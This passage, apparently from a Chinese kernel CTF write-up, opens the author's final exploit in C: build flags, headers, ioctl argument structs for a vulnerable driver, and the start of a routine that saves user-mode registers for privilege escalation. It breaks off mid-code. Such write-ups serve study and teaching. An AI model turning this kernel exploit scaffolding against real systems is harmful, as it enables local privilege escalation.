 #### 最终`Exploit`

本`Exploit`里面有一些适配窝使用的`Kernel`调试框架而写的接口代码块，不会对利用方式以及利用结果产生影响~

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include &lt;sys/mman.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sched.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;stdio.h&gt;
#include &lt;sys/ipc.h&gt;
#include &lt;sys/msg.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;sys/prctl.h&gt;

void init()`{`
        setbuf(stdin,0);
        setbuf(stdout,0);
        setbuf(stderr,0);
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

struct init_args
`{`
    size_t size;
`}`;

struct realloc_args
`{`
    int grow;
    size_t size;
`}`;

struct read_args
`{`
    size_t buff;
    size_t count;
`}`;

struct seek_args
`{`
    size_t new_pos;
`}`;

struct write_args
`{`
    size_t buff;
    size_t count;
`}`;

void save_user_status()`{`
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
```